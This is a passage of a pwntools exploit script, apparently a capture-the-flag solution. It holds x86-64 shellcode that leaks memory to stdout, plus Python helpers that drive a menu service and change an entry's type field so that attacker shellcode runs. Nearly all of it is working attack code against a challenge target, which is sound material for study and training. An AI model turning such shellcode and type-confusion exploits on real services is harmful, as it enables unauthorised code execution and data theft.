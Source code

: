 ```python
    pop %rbx
    and %bx, 0xf000
    add %rbx, 0x1800

    // write to stdout
    xor %rax, %rax
    inc %rax
    mov %rdi, %rax
    mov %rsi, %rbx
    push 0x80
    pop %rdx
    syscall

    // exit
    push 0xe7
    pop %rax
    xor %rdi, %rdi
    syscall
""")

def new_sc(t, sc):
    p.sendlineafter(b"Choice: ", b"1")
    p.sendlineafter(b": ", str(t).encode())
    p.sendlineafter(b": ", str(len(sc)).encode())
    p.sendlineafter(b": ", sc)

def exec_sc(idx):
    p.sendlineafter(b"Choice: ", b"3")
    p.sendlineafter(b": ", str(idx).encode())

def edit_sc(idx, new_type=None, new_sc=None):
    p.sendlineafter(b"Choice: ", b"2")
    p.sendlineafter(b": ", str(idx).encode())

    if new_type is not None:
        p.sendlineafter(b": ", b"y")
        p.sendlineafter(b": ", str(new_type).encode())
    else:
        p.sendlineafter(b": ", b"n")

    if new_sc is not None:
        p.sendlineafter(b": ", b"y")
        p.sendlineafter(b": ", str(len(new_sc)).encode())
        p.sendlineafter(b": ", new_sc)
    else:
        p.sendlineafter(b": ", b"n")

def pwn():
    global p
    p = get_cxn()

    new_sc(1, shellcode_1)
    new_sc(3, shellcode_2)
    edit_sc(0, new_type=0x101)
    exec_sc(0)
    exec_sc(1)

    print(p.recvall(timeout=1))
    # p.interactive()

if __name__ == "__main__":
    pwn()
```